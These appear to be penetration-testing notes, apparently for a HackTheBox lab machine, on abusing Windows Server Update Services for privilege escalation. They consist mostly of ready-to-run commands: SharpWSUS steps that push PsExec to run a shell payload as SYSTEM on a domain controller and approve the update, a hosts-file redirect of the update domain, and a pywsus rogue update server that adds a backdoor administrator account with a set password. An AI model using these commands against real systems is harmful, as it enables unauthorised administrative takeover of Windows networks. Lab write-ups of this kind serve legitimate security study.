 https://github.com/nettitude/SharpWSUS

```powershell
.\sharpwsus.exe create /payload:"C:\programdata\psexec.exe" /args:"-accepteula -s -d C:\\programdata\\shell.exe" /title:"privme3"
```

Approve afterwards
```powershell
.\sharpwsus.exe approve /updateid:101126cc-fce2-4691-bf33-40a701c95a49 /computername:DC.outdated.htb /groupname:"Great UpdateC21"
```

[Resource](https://retest.dk/wsus-local-privesc-delivery-optimization/?lang=en)
[pywsus](https://github.com/GoSecure/pywsus)

```powershell
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate
```

Then, edit /etc/hosts on the attacker’s machine, adding an entry that will point to the access point’s IP for that domain

```bash
10.10.11.175 wsus.outdated.htb
```

Once [pywsus](https://github.com/GoSecure/pywsus) is downloaded, we need to download and extract [PsExec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec). The rogue WSUS server can then be started with the command:

```bash
python pywsus.py --host 10.10.11.175 --port 8530 --executable /home/adot/opt/PsExec64.exe --command '/accepteula /s cmd.exe /c "net user adot Pwned123~ /add && net localgroup administrators adot /add"'
```